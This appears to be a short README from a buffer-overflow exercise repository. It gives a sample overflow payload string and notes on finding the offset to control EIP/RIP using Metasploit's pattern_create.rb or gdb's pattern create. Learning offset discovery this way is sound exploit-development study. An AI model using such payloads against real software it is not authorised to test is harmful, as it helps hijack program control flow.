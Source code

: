 ### Readme

---

Payload : a^Qaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa^Q

Finding the offset
```py
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Control the EIP or RIP

Alternatively, inside gdb use pattern create 200

```
